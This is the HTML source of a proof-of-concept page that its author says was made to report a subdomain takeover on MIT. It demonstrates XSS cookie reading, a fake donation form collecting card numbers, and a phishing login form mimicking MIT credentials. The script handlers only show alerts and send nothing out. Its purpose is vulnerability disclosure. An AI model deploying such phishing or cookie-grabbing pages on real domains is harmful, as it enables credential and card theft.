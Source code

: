 # Subdomain Takeover Proof of Concept
## By c0d3d_v3n0m (Ali Salman)

The examples below illustrate exploits that may be possible through a Subdomain Takeover Vulnerability. This vulnerability is a high-risk issue and can serve as an attack vector for further exploitation. The purpose of this Proof of Concept is to bring to notice of MIT the severity of the vulnerability. I do not intend to use this for any malignant purposes.
**Please reference: Incident Reference Number To Be Added**

If you have any queries please reach out to [c0d3d_v3n0m (Ali Salman)](mailto:alisalmanbilal@live.com)

<h2>Examples of Exploits:</h2>
<br />
<ol>
<li>
<h4>Stealing Cookies Using XSS (Cross Site Scripting)</h4>
<button type="button" onclick="xss()" class="btn btn-primary">
Click Me!
</button>
</li>
<br />
<li>
<h4>Hosting Scams</h4>
<form>
<div class="form-group w-50">
<label for="fname">First name:</label>
<input
type="text"
id="fname"
name="fname"
class="form-control"
placeholder="John"
/><br />
<label for="lname">Last name:</label>
<input
type="text"
id="lname"
name="lname"
class="form-control"
placeholder="Doe"
/><br />
<label for="donation">Donation Amount:</label>
<input
type="text"
id="donation"
name="donation"
class="form-control"
placeholder="$1000"
/><br />
<label for="card">Credit Card Number:</label>
<input
type="text"
id="card"
name="card"
class="form-control"
placeholder="1111-2222-3333-4444"
/>
</div>
<button type="button" onclick="scam()" class="btn btn-primary">
Get Scammed!
</button>
</form>
<br />
</li>
<li>
<h4>Making Believable Phishing Pages</h4>

<form action="">
<div class="form-group w-50">
<label for="username" id="loginIdLabel"
>Login Name (in the form of an email address):</label
><br />
<input
id="username"
size="40"
maxlength="100"
tabindex="11"
type="text"
accesskey="u"
path="username"
autocomplete="off"
htmlEscape="true"
placeholder="me@examplemailprovider.com"
name="username"
value="Legit MIT Username"
class="form-control"
/><br />
<label for="password" id="PINLabel">Password:</label><br />
<input
id="password"
size="40"
maxlength="100"
tabindex="12"
path="password"
type="password"
accesskey="p"
htmlEscape="true"
autocomplete="off"
name="password"
value="Legit MIT Password"
class="form-control"
/>
</div>
<button type="button" onclick="login()" class="btn btn-primary">
Login
</button>
</form>
<br />
</li>
<li>
<h4>Hosting Malicious Files</h4>
<img
src="https://opensource.com/sites/default/files/uploads/linux-toy-nyancat-animated.gif"
width="50%"
/>
<p><em>Pretend the cat is a malicious file :)</em></p>
</li>
</ol>

<script>
function set() {
document.domain = "mit.edu";
}
function xss() {
alert("A Wild Cookie Appears:\n" + document.cookie);
}
function scam() {
alert("Current Bank Balance = 0 :O");
}
function login() {
var user = document.getElementById("username").value;
var pass = document.getElementById("password").value;
alert(
`The Stolen Login Details Are:\nUsername: ${user}\nPassword: ${pass}`
);
}
</script>
</body>
</html>